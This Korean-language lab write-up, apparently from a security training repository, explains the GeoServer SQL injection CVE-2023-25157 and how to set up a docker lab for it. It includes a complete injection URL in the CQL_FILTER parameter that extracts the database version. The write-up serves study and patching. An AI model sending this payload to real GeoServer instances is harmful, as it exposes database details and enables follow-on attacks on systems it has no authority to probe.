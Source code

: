 ![image](https://github.com/ANG-web/whitehat-school-vulhub/assets/70057651/b9b24397-edd1-46c9-a096-f3b84b01987f)# geoserver/CVE-2023-25157
---
##### Contributor
- 최석규

#### 요약
- GeoServer는 자바로 만들어진 서버이며, 지리 정보를 편집 및 공유할 수 있는 서비스를 제공한다.
- 2.22.1과 2.21.4 이전 버전에서 SQL injection이 있다.
- OGC (Open Geospatial Consortium) 표준에 의해 정의된 필터 및 함수식에서 발견 되었다.
- URL 파라미터에 postgis를 포함하는 workspace의 이름과 타입을 삽입 시 데이터베이스 버전 정보가 노출되는 취약점이다.

참고 자료
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf


#### 환경구성
- ```docker-compose up -d```
- ```http://your-ip:8080/geoserver```로 geosever 확인
- workspace name : vulhub
- Data store name : pg
- Feature type name : example
- One of attribute from feature type: name
- 위와 같은 구성 확인


#### SQL 구문 삽입
- ```http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true```

#### 결과

![image](https://github.com/ANG-web/whitehat-school-vulhub/assets/70057651/d292375b-c2a2-4a89-92ae-261bf0ffa346)



#### 정리
- geoserver에서 postgis 데이터베이스를 사용하는 작업공간에 이름과 타입을 매개변수로 넘길 경우 데이터베이스의 버전 정보가 노출된다.
- 이 취약점은 데이터베이스 정보를 활용해 추가적인 2차 공격이 일어날 수 있기 때문에 빠른 패치가 필요하다.

